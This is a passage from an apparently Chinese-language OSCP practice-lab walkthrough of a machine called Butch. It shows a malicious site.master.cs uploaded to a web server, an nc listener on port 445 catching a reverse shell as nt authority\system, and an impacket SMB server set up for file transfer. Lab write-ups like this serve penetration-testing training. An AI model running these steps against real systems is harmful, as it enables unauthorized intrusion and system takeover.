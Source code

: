 测试过程中发现有端口限制，最后采用445端口，成功回连。

将恶意文件site.master.cs进行上传

![image-20240212205301350](resource/26-W-M-Butch.assets/image-20240212205301350.png)

Kali端启用nc监听445端口，然后刷新Web页面，成功收到回连。

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Butch]
└─$ nc -nlvp 445
listening on [any] 445 ...
connect to [192.168.45.164] from (UNKNOWN) [192.168.225.63] 49821
Microsoft Windows [Version 10.0.17763.1217]
(c) 2018 Microsoft Corporation. All rights reserved.
whoami
c:\windows\system32\inetsrv&gt;whoami
nt authority\system
```

由于这个连接是基于Web的，存在超时限制，需要建立一个稳定的shell

由于有端口限制，因此选择Kali侧开启smb服务进行文件传输

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/tools/win]
└─$ impacket-smbserver share $(pwd) -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
……
```
